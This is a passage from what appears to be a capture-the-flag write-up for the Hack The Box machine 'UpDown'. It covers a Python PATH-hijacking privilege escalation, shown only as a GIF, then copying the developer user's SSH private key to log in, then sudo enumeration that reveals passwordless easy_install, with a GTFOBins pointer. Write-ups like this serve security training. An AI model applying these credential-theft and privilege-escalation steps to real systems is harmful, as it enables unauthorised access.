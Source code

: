 		$ ls
		dev
		user.txt
		```
3. Demo - Python PATH Hijacking Privilege Escalation
	![](9SLRl8WJ61.gif)
4. Copy user `developer`'s SSH private key (`/home/developer/.ssh/id_rsa`) & SSH to obtain a stable shell
	```
	┌──(root💀kali)-[~/htb/UpDown/10.10.11.177/loot]
	└─# ssh developer@updown.htb -i id_rsa
	Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-122-generic x86_64)
	
	 * Documentation:  https://help.ubuntu.com
	 * Management:     https://landscape.canonical.com
	 * Support:        https://ubuntu.com/advantage
	
	  System information as of Mon Oct 24 11:43:51 UTC 2022
	
	  System load:           0.0
	  Usage of /:            51.8% of 2.84GB
	  Memory usage:          29%
	  Swap usage:            0%
	  Processes:             256
	  Users logged in:       0
	  IPv4 address for eth0: 10.10.11.177
	  IPv6 address for eth0: dead:beef::250:56ff:feb9:b8c1
	
	
	8 updates can be applied immediately.
	8 of these updates are standard security updates.
	To see these additional updates run: apt list --upgradable
	
	
	The list of available updates is more than a week old.
	To check for new updates run: sudo apt update
	Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings
	
	
	Last login: Tue Aug 30 11:24:44 2022 from 10.10.14.36
	developer@updown:~$
	```

## Root - Enumeration
1. View user `developer` sudo access
	```
	developer@updown:/tmp$ sudo -l
	Matching Defaults entries for developer on localhost:
	    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
	
	User developer may run the following commands on localhost:
	    (ALL) NOPASSWD: /usr/local/bin/easy_install
	```
	![](Pasted%20image%2020221024203906.png)
	> `easy_install` - has a [GTFOBins Entry](https://gtfobins.github.io/gtfobins/easy_install/)
	{: .prompt-info }
	